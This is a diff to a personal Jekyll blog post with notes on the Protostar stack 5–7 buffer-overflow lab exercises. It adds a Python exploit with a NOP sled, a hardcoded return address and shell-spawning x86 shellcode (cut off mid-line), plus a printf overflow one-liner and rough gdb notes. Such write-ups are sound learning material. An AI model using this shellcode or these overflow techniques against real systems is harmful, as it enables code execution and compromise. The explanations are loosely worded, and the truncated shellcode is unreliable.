

Before and after one commit to 90r1ll4/90r1ll4.github.io, a Jekyll site: the page built from _posts/2022-10-28-protostar-stack.md, in a window 1280 px wide and 1400 px high, scrolled down 3506 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4200 px from its top, so only the background shows below that.

Commit message:
Added stack 5 -7

````diff
--- a/_posts/2022-10-28-protostar-stack.md
+++ b/_posts/2022-10-28-protostar-stack.md
@@ -139,3 +139,39 @@ int main(int argc, char **argv)
 ```
 
 for this type, find the crash point, then find the function add and add it after the crash point
+
+# Stack 5 (Concepts)
+
+```python
+import struct
+nop= 'A'*76
+sp=struct.pack("I",0xbffff7c0)
+#sh="\xde\xf7\xff\xbf"
+padding="\x90"*200# +"\xcc"*4
+shellcode="\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69$
+payload=nop+sp+padding+shellcode
+print payload
+```
+
+First find the offset for the stack by segmentation fault and find the ebp by **x/2wx $ebp**, and the second one is the address of ebp as first line in gdb **push ebp** so it pushes the ebp in the stack the over the any value(garbage). because it moves to next  memory before pushing ebp.
+
+**Explaining Exploit:-**
+
+The offset is used to get to the eip and after marking the breakpoint to the last (main+27) and countinue forward(add \xcc [call to interrupt procedure ] so it overflow address after return address[which should be change to the int 3(\xcc) address ]) and overflow the return addresss with the address \xcc is. After the trap message appear , you can add shellcode instead of \xcc adding nop side(\x90)
+
+# Stack 6
+
+```python
+printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\xbf" | ./stack6
+```
+
+first find the value of return and changed it with the hard coded value,
+
+> Note : find the value same as value of return and try to over write that (Yet to research on that)
+>
+
+`__builtin_return_address(0);` gives the return address for the function
+
+# Stack 7
+
+Same as previous, except the value to overwrite changed to 0xb0000000
````
